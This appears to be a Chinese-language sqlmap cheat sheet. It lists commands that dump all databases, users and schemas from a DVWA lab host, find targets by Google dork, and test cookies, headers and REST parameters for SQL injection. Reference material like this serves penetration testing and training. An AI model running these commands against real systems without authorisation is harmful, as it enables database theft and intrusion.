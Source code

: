 ### 直接榨取所有数据

- sqlmap -d "mysql://user:pass@192.168.1.14:3306/dvwa" -f --users -b --dbs --schema -a -v 6

- dbms://user:pass@dbms_ip:dbms_port/database_name

- dbms://database_filepath(sqlite, microsoft Access, firebird)

- `-f`  # fingerprint

- `-b`  # banner

- `-a`  # 榨取所有数据

- `-v`  # 输出信息详细度（0-6）

---
### 扫描漏洞

- `sqlmap -u "URL" --cookie = "..." -f -b --current-user`

- `sqlmap -m list.txt`                  # url 列表文件

- `sqlmap -g "inurl:\".php?id=a\""`     # google搜索

- `sqlmap -r request.txt`               # 读取文件

- `sqlmap -u "URL" --data="u=a&p=b"`    # post请求  其中data里如果用`;`之类的来连接参数的话，可以用`--param-del=";"`来标明

- `--method=PUT`                        # 指定HTTP方法

- `sqlmap -l log.txt`                   # Burpsuite日志

- `sqlmap -x http://192.168.1.12/sitemap.xml`   # 搜索引擎

- `sqlmap -u "https://192.168.1.12/a.php?id=1" --force-ssl` # 支持https

- `--cookie`            # set-cookie选择提示
    - `--cookie-del=","`    # 键值对分隔符（默认是`;`）
    - `--drop-set-cookie`   # 禁用服务器Set-Cookie头
    - `--load-cookies=`     # 读取cookie文件
    - `level >= 2`          # 检查cookie注入点 默认不会检查cookie是否有SQL注入
- `--user-agent`        # UA头文件（level >= 3时会检查`user-agent`是否有sql注入）
    - `--random-agent`  # 随机UA（/usr/share/sqlmap/txt/ua.txt）

- `--host`              # 指定Host头（level = 5时才会检查`host`是否存在sql注入)

- `--referer`           # 指定referer（level >= 3时会检查`referer`是否存在sql注入)

- `--headers`           # 指定其他头

---
### Sqlmap注入

- `-p/ --skip`          # 指定/忽略注入检查的参数

    > `sqlmap -u "http://targeturl/param1/value1*/param2/value2*/"`     # REST格式的测试注入

- `--dbms`              # 指定数据库类型
